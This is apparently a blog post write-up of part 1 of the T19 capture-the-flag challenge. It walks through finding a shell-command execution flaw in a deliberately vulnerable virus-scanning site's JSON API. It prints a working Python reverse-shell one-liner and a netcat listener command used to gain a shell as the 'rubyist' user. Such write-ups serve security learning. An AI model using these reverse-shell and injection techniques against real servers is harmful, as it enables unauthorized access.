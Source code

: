 ```yaml
---
layout: post
title: T19 Challenge (Part 1)
---
```


The T19 Challenge was hosted by [Twistlock Labs](https://www.twistlock.com/labs/) last week on [http://t19challenge.com/](http://t19challenge.com/).

> Welcome. 
>
> Our company developed a unique Linux binary called "cat". We recently discovered that our competitors from the Antivirus company VirusExpress are blocking our cat binary. It is now signed as a **virus**. Word is that you are a badass security researcher. We need you to **infilitrate their server** and **empty their database**.

There are 3 parts of varying difficulty to this challenge. The vulnerabilities may look simple, but are really challenging to exploit.

In summary, we are provided with a virus scanning [site](http://virus.express/), which we must exploit a **command injection vulnerability** to gain access to the server. After which, we could escalate privileges by exploiting a **buffer overflow vulnerability**, in a setuid binary that acts as a client to the virus database. Finally, we gain root access by exploiting a **buffer overflow vulnerability** in the database service ran by the root user.

This post is about the getting the first flag of the challenge, by exploiting a command injection vulnerability in the virus uploading API. 

If you would like to skip this part, here are the links to [part 2][part2] and [part 3][part3].

### Recon
The target, [virus.express](http://virus.express/), has a simple interface, allowing a user to upload a binary and check whether it is a virus.

![website][website-screenshot]

![danger][danger-screenshot]

Viewing the source, I found an interesting `TODO` left by the devs.

```html
2. Add documentation on the experimental JSON API on /api
```

Opening [virus.express/api](http://virus.express/api) in the browser gives the following response.

```json
{"success":false,"response":"Please deliver something next time."}
```

### Exploring the API
To ease poking around with the API, I intercepted the request with Burp. Through trial and error, by changing from `GET` to `POST` request, adding a `Content-Type: application/json` header, and sending a dummy `{"hello": "world"}` as data, the following error page is returned.

![error][error-screenshot]

It looks like the program errored out at the line

`response = {:success=>true, :response=>(is_virus? body[:file][:hash], body[:file][:name], body[:cmd])}`

As this was ruby syntax, it looks like we are expected a JSON object with fields `cmd` and `file`, where `file` is another object consisting of fields `hash` and `name`. So, we can modify our data to be 

```json
{
    "cmd": "ls", 
    "file": {
        "hash": "hello", 
        "name": "hello"
    }
}
```

![hash-error][hash-error-screenshot]

Another error. But this time, it looks like really good information. In particular, we can see the following line

`` `#{cmd} "#{encoded}" "#{filename}"` ``

In ruby, putting backticks around a string is to execute it as a shell command. This means we got arbitrary code execution!

But before that, the error needs to resolved so that we can execute what we want. It turns out that the `hash` is being passed into `Z85rb.encode()`, which expects a string with length of a multiple of 4. A simple fix is to set both `hash` and `name` as empty strings, so that they do not interfere with our `cmd`.

### Getting a reverse shell
Interacting with the server by constantly changing the `cmd` field is not a good experience. A more convenient method is to spawn a reverse shell.

Unfortunately, as with usual production machines, this one does not have `netcat` installed, which is used most often when trying to create a reverse shell. Nevertheless, we can go through this [reverse shell cheat sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) and try the commands one by one.

In the end, the `python` one worked out for me.

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

I just need to run `nc -lvp 8000` on a VPS, send to /api `cmd` set as the command above, and I get a shell to the server as user `rubyist`.

<script id="asciicast-lE2IirQBegq5Wb3ZgbtlU3zv3" src="https://asciinema.org/a/lE2IirQBegq5Wb3ZgbtlU3zv3.js" async></script>

---

In [part 2][part2], we exploit a buffer overflow in a setuid binary to escalate privileges as `ben`.

Actually, I'm not sure if it is even right to say that there is a command injection vulnerability, since we don't need to tweak the input to execute our command.

If there is anything unclear, feel free to leave a comment below.

[part2]:/t19-challenge-2.html
[part3]:/t19-challenge-3.html
[website-screenshot]:{{site.baseurl}}/ctfs/t19/part1/images/website.png
[danger-screenshot]:{{site.baseurl}}/ctfs/t19/part1/images/danger.png
[error-screenshot]:{{site.baseurl}}/ctfs/t19/part1/images/error.png
[hash-error-screenshot]:{{site.baseurl}}/ctfs/t19/part1/images/hash-error.png